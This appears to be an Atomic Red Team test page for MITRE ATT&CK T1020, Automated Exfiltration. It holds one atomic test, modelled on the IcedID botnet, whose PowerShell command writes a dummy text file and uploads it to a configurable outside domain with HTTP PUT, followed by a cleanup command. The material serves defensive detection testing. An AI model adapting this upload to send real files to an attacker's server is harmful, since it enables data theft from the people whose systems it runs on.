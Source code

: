 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file | Exfiltration File | String | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
